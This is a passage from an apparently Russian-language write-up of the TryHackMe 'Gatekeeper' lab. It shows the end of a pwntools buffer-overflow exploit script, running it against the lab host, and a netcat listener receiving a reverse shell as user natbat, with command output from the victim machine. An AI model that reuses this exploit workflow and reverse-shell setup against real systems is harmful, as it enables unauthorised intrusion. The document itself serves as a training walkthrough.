 ```python
    try:
        io = start()
        io.sendline(payload)
        try:
            response = io.recv(timeout=RESPONSE_TIMEOUT)
            if response:
                log.warning(f"Server responded unexpectedly: {response[:100]}...")
            else:
                log.success("Server stopped responding - likely crashed!")
        except EOFError:
            log.success("Connection closed by server - likely crashed!")

    except Exception as e:
        log.error(f"Error during exploitation: {str(e)}")
    finally:
        try:
            io.close()
        except:
            pass

# ==================== MAIN =====================
if __name__ == '__main__':
    #run_fuzzer()
    #get_offset()
    run_exploit()
```

Указываю скрипту хост машины `thm`
```bash
┌──(.venv)─(kali㉿0x2d-pentest)-[~/Labs/TryHackMe/Win Medium - Gatekeeper/exploits]
└─$ python3 x.py HOST=$ip                                                                       
[+] Opening connection to 10.10.192.2 on port 31337: Done
[+] Server stopped responding - likely crashed!
[*] Closed connection to 10.10.192.2 port 31337
```

И получаю шелл от `natbat`  
```bash
┌──(kali㉿0x2d-pentest)-[~]
└─$ nc -lvnp 4444         
listening on [any] 4444 ...
connect to [10.21.104.16] from (UNKNOWN) [10.10.192.2] 49195
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Users\natbat\Desktop>whoami
whoami
gatekeeper\natbat

C:\Users\natbat\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 3ABE-D44B

 Directory of C:\Users\natbat\Desktop

05/14/2020  09:24 PM    <DIR>          .
05/14/2020  09:24 PM    <DIR>          ..
04/21/2020  05:00 PM             1,197 Firefox.lnk
04/20/2020  01:27 AM            13,312 gatekeeper.exe
04/21/2020  09:53 PM               135 gatekeeperstart.bat
05/14/2020  09:43 PM               140 user.txt.txt
               4 File(s)         14,784 bytes
               2 Dir(s)  15,878,819,840 bytes free
```